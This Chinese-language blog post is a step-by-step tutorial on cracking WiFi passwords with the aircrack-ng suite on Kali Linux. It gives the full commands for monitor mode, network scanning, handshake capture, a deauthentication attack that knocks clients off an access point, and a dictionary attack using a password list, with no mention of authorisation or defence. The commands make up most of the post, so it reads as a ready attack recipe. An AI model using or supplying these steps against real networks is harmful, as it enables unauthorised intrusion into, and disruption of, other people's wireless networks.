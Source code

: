 ```yaml
---
layout: post
title: Aircrack破解wifi密码
---
```


<img src="/images/wifi.jpg" class="fit image"> 
 
 
 
## 实验过程
### 破解准备 
  * kali系统笔记本
  * 无线网卡模块
  * 安装aircrack-ng包
### 确认网卡
  进入系统后，首先ifconfig看我们的无线网卡是否有正常工作。
  如果没有开启，输入airmon-ng wlan0 up加载无线网卡
  在这里wlan0就是我的网卡，现在已经正常开启 
 <center>
  <img src="/images/thumbs/wlan0.png" width="520" height="320" />
 </center>
                                                               
### 开启监听
```
root@kali:~$ airmon-ng start wlan0
```
<img src="/images/0.9.jpg" width="520" height="320" />

### 扫描目标wifi
 ```
 root@kali:~$ airodump-ng wlan0mon
 ```
<img src="/images/thumbs/mubiao.jpg" width="520" height="320" />   

### 开始抓握手包
 ```
 root@kali:~$ airodump-ng --ivs -w abc -c 6 mon0 
 ```
 1. ivs是通过ivs过滤，只保留可以破解密码的报文.ivs文件，这样比较快点
 2. -w是将抓取的报文写入命名为abc并保存（之后会在当前文件夹保存为abc-01.ivs）
 3. -c后面跟频道CH，如这里的6  
 
### 强制客户端重连
 ```
aireplay-ng -0 1 -a AP的Mac地址 -c 客户端的Mac地址 interface
 ```
  <img src="/images/thumbs/attack.jpg" width="520" height="320" />
 + -0 1：表示使用Deauth攻击模式，后面的1表示攻击次数
 + -a :表示AP的Mac地址
 + -c ：表示客户端的Mac地址
 + interface：网卡
 
### 使用密码本破解
 ```
  root@kali:~$ aircrack-ng abc-01.ivs -w pass-wifi.txt
 ```
  <img src="/images/thumbs/ben.jpg" width="520" height="320" />
 + -w是指定我的密码本

